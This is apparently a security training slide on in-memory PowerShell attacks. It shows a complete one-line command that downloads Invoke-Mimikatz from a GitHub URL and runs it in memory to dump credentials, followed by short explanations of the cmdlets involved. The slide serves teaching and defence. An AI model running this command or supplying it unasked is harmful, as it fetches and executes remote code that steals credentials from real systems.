

# In Memory Attacks: PowerShell Demo
﻿C:\Windows\system32>powershell.exe -command "Invoke-Expression -Command (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Burnd9671/Invoke-Mimikatz/master/Invoke-Mimikatz.ps1');Invoke-Mimikatz ”

Invoke-Expression
The Invoke-Expression cmdlet evaluates or runs a specified string as a command
(New-Object System.Net.WebClient).DownloadString
Downloads the requested resource as a String

Storage and Execution Happens in Memory